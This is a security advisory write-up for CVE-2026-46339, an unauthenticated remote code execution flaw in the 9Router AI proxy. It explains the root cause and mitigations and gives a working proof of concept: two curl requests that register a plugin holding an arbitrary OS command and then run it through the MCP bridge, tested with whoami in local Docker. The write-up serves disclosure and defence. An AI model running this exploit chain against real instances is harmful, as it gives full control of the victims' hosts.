







# CVE-2026-46339 - 9Router Unauthenticated Remote Code Execution

CVE-2026-46339 is a critical (CVSS 10.0) unauthenticated remote code execution vulnerability in **9Router**, an open-source AI router / token-saving proxy used to route AI coding tool traffic (Claude Code, Cursor, Copilot, etc.) across multiple upstream providers.

---

## Classification

- **CVE ID:** CVE-2026-46339
- **GHSA ID:** GHSA-fhh6-4qxv-rpqj
- **Vulnerability Type:** Remote Code Execution (RCE)
- **CWE-78:** Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')
- **CWE-306:** Missing Authentication for Critical Function
- **CVSS v3.1 Score:** 10.0 (Critical)
- **CVSS v3.1 Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`
  - **Attack Vector (AV):** Network
  - **Attack Complexity (AC):** Low
  - **Privileges Required (PR):** None
  - **User Interaction (UI):** None
  - **Scope (S):** Changed
  - **Confidentiality (C):** High
  - **Integrity (I):** High
  - **Availability (A):** High
- **EPSS Score:** ~4.57% probability of exploitation (≈90th percentile)
- **Affected versions:** 0.4.30 - 0.4.36
- **Fixed in:** commit `992f4db4a0d858bcc86b4786f2abab117a6ccdf8` (see Verification Note below regarding the `v0.4.37` tag)

---

## Description

From versions 0.4.30 until 0.4.36, 9Router's `src/proxy.js` middleware did not protect `/api/cli-tools/*` and `/api/mcp/*`, allowing unauthenticated registration of custom plugins through `src/app/api/cli-tools/cowork-settings/route.js` and command execution through the MCP bridge. It was fixed in commit `992f4db`.

**Tech stack:** 9Router is a Node.js application built on Next.js (API routes + middleware), distributed as an npm package. This matters because the root cause is a Next.js-specific mechanism: middleware only runs on routes matching a configured `matcher` array, rather than on every request by default.

### Affected files

- **`src/proxy.js`** - the Next.js middleware responsible for enforcing authentication on incoming requests. Its route `matcher` only listed 8 explicit paths, so any route not on that list (including all of `/api/cli-tools/*` and `/api/mcp/*` (40+ routes)) received no authentication check at all.
- **`src/app/api/cli-tools/cowork-settings/route.js`** - The API route handler that accepts a JSON body containing `customPlugins`. It stored the attacker-supplied `command` and `args` fields verbatim into a process-global plugin registry, with no validation against an allowlist of permitted commands.

### What is the MCP bridge?

MCP (Model Context Protocol) is a standard that lets an AI application call out to external tools/services in a structured way. In 9Router, the **MCP bridge** is the internal component that takes a registered plugin's stored `command`/`args` and actually executes it on the host (via `registerCustomPlugin()` and a process-spawning call), then returns the output back through the API so it can be surfaced to the AI client.

---

## Root Cause

Two distinct defects combine to produce the impact:

1. **Missing authentication (CWE-306):** the Next.js middleware in `src/proxy.js` enforced authentication only on eight explicitly listed routes. `/api/cli-tools/*` and `/api/mcp/*` were absent from this list, so requests to them bypassed the auth check entirely.

**Figure 1 - Vulnerable route matcher in `src/proxy.js`**




2. **Missing input validation (CWE-78):** the plugin registration route (`cowork-settings/route.js`) accepted arbitrary `command`/`args` definitions with no allowlist check, storing them directly into the MCP bridge's process-global registry.

**Figure 2 - Fix diff introducing the `ALLOWED_MCP_COMMANDS` allowlist**



**Figure 3 - Loopback gating logic added to `src/dashboardGuard.js`**



---

## Threat Model: User vs. Attacker

**User (Victim):** A developer who has self-hosted a 9Router instance (versions 0.4.30-0.4.36) to route their AI coding tool traffic through it. 9Router listens on a web server, by default on port `20128`, and can be deployed either:
- **Locally only** (`--host 127.0.0.1`) - reachable only from the same machine, or
- **Network-exposed** (`HOSTNAME=0.0.0.0`) - reachable from the local network or, if hosted on a VPS/cloud instance with a public IP, from the entire internet. 

Several official setup guides for 9Router recommend the network-exposed configuration for "always-on" deployments, meaning this is a common, expected way to run the tool. Not a misconfiguration on the user's part. (Example: https://medium.com/@rintoprie/building-a-private-ai-gateway-on-a-vps-with-9router-42acd36f2aef)

**Attacker:** Any party that can reach the exposed instance over the network. Critically, the attacker requires:
- No account or credentials on the target instance
- No prior relationship with or knowledge of the victim
- No user interaction from the victim

In practice, an attacker can locate vulnerable instances using internet-wide scanning tools (e.g. Shodan, Censys) that search for services exposed on the default port or matching the 9Router dashboard's fingerprint, then send the two-request exploit chain directly to any instance found running an affected version.

---

## Exploit Chain / Summary

Once the attacker has located a reachable 9Router instance, they:

1. **Register:** send an unauthenticated `POST /api/cli-tools/cowork-settings` request to register a malicious plugin containing an arbitrary OS command (`command` + `args`).
2. **Trigger:** invoke that plugin through the MCP bridge (`GET /api/mcp/<plugin-name>/sse`), which spawns the attacker's command on the host.
3. **Result:** receive the command's output back through the streamed API response — proving arbitrary code execution as the user running the 9Router process, with zero prior access.

```
[Attacker] --POST /api/cli-tools/cowork-settings--> [9Router 0.4.30-0.4.36]
    body: { customPlugins: [{ name, command, args }] }
    -> stored in process-global bridge, no auth check, no allowlist

[Attacker] --GET /api/mcp/<plugin>/sse--> [9Router]
    -> server spawns the stored command
    -> output streamed back to attacker
```

---

## Impact

The vulnerability grants an attacker **arbitrary OS command execution**, not a limited or pre-defined action. The `command` and `args` fields registered through the plugin endpoint are passed directly to a process-spawning call on the host, meaning an attacker can run *any* command the underlying OS supports, with the same privileges as the user running the 9Router process.

This single primitive is sufficient, on its own, to achieve a full range of malicious outcomes, including:

- **Data theft (Confidentiality):** reading sensitive files such as `.env` configuration, API keys, SSH private keys, or proprietary source code, and exfiltrating them to an attacker-controlled server.
- **Persistence (Integrity):** adding an attacker-controlled SSH key to `~/.ssh/authorized_keys`, creating a scheduled task/cron job, or modifying application files.
- **Full backdoor deployment:** using the initial command to download and execute a larger payload from a remote server.
- **Lateral movement:** using the compromised host as a foothold to scan and attack other internal systems on the same network.
- **Destruction / Denial of Service (Availability):** deleting or encrypting data, or shutting down critical services.

This explains why the CVSS v3.1 vector rates all three impact metrics as High (`C:H/I:H/A:H`): arbitrary command execution provides total control over the confidentiality, integrity, and availability of the host. There is no meaningful "less severe" version of this primitive, the risk scales entirely with the attacker's intent, not with any additional exploitation step.

**Note:** This is a pure **logic/design flaw**, the application trusted attacker-supplied input (a command name and arguments) as if it were a pre-approved, legitimate instruction, with no authentication and no validation in place.

---

## Proof of Concept

All testing was performed locally in isolated Docker containers, using the harmless command `whoami` as payload, with no network exposure beyond the loopback interface / a private Docker bridge network.

### Environment

```bash
docker run -it --rm -p 127.0.0.1:20128:20128 node:20 bash
git clone https://github.com/decolua/9router.git
cd 9router
git checkout v0.4.36
npm install
npm run dev
```

### Step 1 - Unauthenticated request reaches the handler

An initial malformed request confirmed the endpoint has no authentication gate: it returned a schema error (`400`), not an authorization error (`401`/`403`).

**Figure 4 - Unauthenticated POST reaches the route handler (400, not 401/403)**



### Step 2 - Register the malicious plugin

```bash
curl -v -X POST http://localhost:20128/api/cli-tools/cowork-settings \
  -H "Content-Type: application/json" \
  -d '{
    "baseUrl": "http://example.com",
    "apiKey": "poc-key",
    "models": ["poc-model"],
    "customPlugins": [
      { "name": "poc-demo", "command": "whoami", "args": [] }
    ]
  }'
```

Result: `{"success":true, ...}` - the plugin was registered with **zero authentication**.

**Figure 5 - Successful unauthenticated plugin registration**



### Step 3 - Trigger execution via the MCP bridge

```bash
curl -v -N --max-time 5 http://localhost:20128/api/mcp/poc-demo/sse
```

Result: the server streamed back an SSE event containing the literal output of the executed command:

```
event: message
data: root
```

`root` is the actual OS user running the 9Router process inside the container - confirming full, unauthenticated remote code execution.

**Figure 6 - Command execution proof (`whoami` -> `root` returned over SSE)**



### Step 4 - Verifying the patch against a genuine external attacker

To properly simulate a network attacker (rather than a loopback request, which the patch treats as trusted), the exploit was repeated from a **second, separate Docker container** on the same Docker bridge network, targeting the victim container's internal IP directly rather than `localhost`.

```bash
# Attacker container
docker run -it --rm node:20 bash
apt-get update && apt-get install -y curl

curl -v -X POST http://172.17.0.2:20128/api/cli-tools/cowork-settings \
  -H "Content-Type: application/json" \
  -d '{
    "baseUrl": "http://example.com",
    "apiKey": "poc-key",
    "models": ["poc-model"],
    "customPlugins": [
      { "name": "poc-demo3", "command": "whoami", "args": [] }
    ]
  }'
```

Against the **actual fix commit** (`992f4db`, checked out directly - see Verification Note below), this request was rejected:

```json
{"error":"Local only: MCP requires localhost access"}
```
returned with HTTP status `403 Forbidden`.

**Figure 7 - Patched version rejects the same attack from a genuine non-loopback source**



---

## Verification Note: Tag/Fix Discrepancy

During PoC testing, the `v0.4.37` tag in the public repository (checked out via `git checkout v0.4.37`) was found to **not** contain the security fix described in GHSA-fhh6-4qxv-rpqj, despite the advisory stating the vulnerability "is fixed in 0.4.37." Testing confirmed the exploit chain succeeded even from a genuinely external source (a separate Docker container, non-loopback IP) against this tagged version.

Using `git merge-base --is-ancestor`, it was confirmed that the actual fix commit (`992f4db4a0d858bcc86b4786f2abab117a6ccdf8`) is **not an ancestor of the `v0.4.37` tag** in this repository's current history, meaning the tag does not point to a commit that includes the patch. Checking out the fix commit directly (rather than the tag) confirmed the mitigation works as described: an identical exploit attempt from a non-loopback source is rejected with a `403 Forbidden`.

This discrepancy suggests the `v0.4.37` tag was retagged, or the fix was released out-of-band, after the advisory's publication, a reminder that version tags in public repositories should not be assumed to reliably correspond to the security state described in an advisory without direct verification against the actual patch commit.

---

## Mitigation

- **Upgrade** to a build that actually includes commit `992f4db4a0d858bcc86b4786f2abab117a6ccdf8` or later (verify directly against the commit, not just the version tag, per the Verification Note above).
- **Network exposure:** bind the 9Router listener to `127.0.0.1` only, and require any remote access through an authenticated reverse proxy or SSH tunnel rather than a directly exposed port.
- **Compensating control (pre-patch):** deploy a network/firewall policy permitting access to `/api/cli-tools/*` and `/api/mcp/*` only from loopback addresses.
- **Audit:** review the 9Router `customPlugins` configuration for any entries not deliberately provisioned by the legitimate user.

---

## References

- GitHub Security Advisory: `github.com/decolua/9router/security/advisories/GHSA-fhh6-4qxv-rpqj`
- Fix commit: `github.com/decolua/9router/commit/992f4db4a0d858bcc86b4786f2abab117a6ccdf8`
- NVD: `nvd.nist.gov/vuln/detail/CVE-2026-46339`
- OSV: `osv.dev/vulnerability/CVE-2026-46339`